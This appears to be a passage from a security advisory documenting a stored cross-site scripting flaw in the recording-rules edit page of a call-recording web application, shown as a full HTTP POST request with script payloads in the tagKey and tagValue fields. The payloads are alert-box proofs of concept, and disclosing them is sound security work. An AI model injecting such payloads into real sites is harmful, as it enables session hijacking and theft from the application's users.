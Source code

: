 ![](Zoom-XSS(4)2.png)

### XSS(5) - Stored XSS in “/callrec/recRulesEditAction.do” page
Request:
```
POST /callrec/recRulesEditAction.do HTTP/1.1
Host: xxx.xxxxx.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://xxx.xxxxx.net/callrec/recording_rules_edit.jsp?viewRoleId=1&ruleId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 398
Cookie: scroolY=0; JSESSIONID=BDFA58A8B635ED02BFDEE14CCFCD6104; m=
Connection: close
Upgrade-Insecure-Requests: 1

org.apache.struts.taglib.html.TOKEN=6188a4d2a8a71e769b9f3137585246d0&ruleId=1&roleId=1&policy=RECORD&typeRule=PHONE&mask=7561&probability=100&dayOfWeek=1&dayOfWeek=2&dayOfWeek=3&dayOfWeek=4&dayOfWeek=5&dayOfWeek=6&dayOfWeek=7&timeFrom=00%3A00&timeTo=24%3A00&active=on&screenRECProbability=100&addTag=on&tagKey="><script>alert('XSSTagKey')</script><&tagValue="><script>alert('XSSTagValue')</script><
```